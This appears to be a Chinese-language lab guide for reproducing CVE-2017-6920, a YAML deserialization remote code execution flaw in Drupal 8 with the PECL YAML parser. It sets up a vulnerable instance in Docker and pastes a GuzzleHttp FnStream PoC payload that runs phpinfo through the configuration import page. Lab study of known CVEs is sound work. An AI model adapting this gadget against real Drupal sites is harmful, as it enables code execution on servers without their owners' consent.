


# Drupal Core 8 PECL YAML 反序列化远程代码执行漏洞（CVE-2017-6920）

Drupal 是一个使用 PHP 编写的免费开源的 Web 内容管理框架。

在使用 PECL YAML 解析器的 Drupal 8.x 至 8.3.4 版本中存在远程代码执行漏洞。该漏洞是由于 YAML 内容的不安全反序列化导致的，允许攻击者执行任意代码。

参考链接：

- <https://www.drupal.org/forum/newsletters/security-advisories-for-drupal-core/2017-06-21/drupal-core-multiple>
- <https://paper.seebug.org/334/>

## 环境搭建

执行如下命令启动一个存在漏洞的 Drupal 8.3.0 服务器：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080/` 将会看到 Drupal 的安装页面。按照默认配置完成安装步骤。由于环境中没有 MySQL，可以选择 SQLite 作为数据库。

## 漏洞复现

首先，以管理员身份登录 Drupal 站点。然后，访问 `http://127.0.0.1:8080/admin/config/development/configuration/single/import` 页面。

在 Configuration type 中选择"Simple configuration"，Configuration name 可以任意填写，在"Paste your configuration here"中粘贴以下 PoC：

```php
!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"
```



点击"Import"后，你将看到漏洞已成功触发，显示 phpinfo 页面：



> 注意：虽然官方 CPE 信息显示该漏洞从 8.0.0 版本就存在，但我们的测试表明只能在 Drupal 8.3.0 中复现，而在 8.0.0 中无法复现。
